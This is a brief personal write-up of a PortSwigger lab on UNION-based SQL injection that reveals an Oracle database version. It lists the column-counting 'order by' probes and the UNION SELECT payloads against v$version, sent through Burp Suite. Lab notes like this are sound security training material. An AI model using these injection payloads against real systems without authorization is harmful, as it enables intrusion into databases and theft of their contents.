

### platform portswigger

### target -> Lab: SQL injection attack, querying the database type and version on Oracle

### **Our Goal : Display Oracle Version**

#### ***Where is Vuln: ***


#### Analysis
- how many columns in this
 - ' order by 2 --
 - ' order by 3 -- `internal server error` now columns is 2

- insert payload
  - ' UNION SELECT 'a',NULL --
  - '+UNION+SELECT+'@version','a'+from+DUAL+-- `working query`
  - '+UNION+SELECT+banner,+NULL+from+v$version+-- `actuall payload`


## Steps:
1. Access the lab
2. click ane product
3. insert your query using the burpsuite with proxy
4. now print oracle versio -> ```CORE 11.2.0.2.0 Production```
5. lab solve -> 
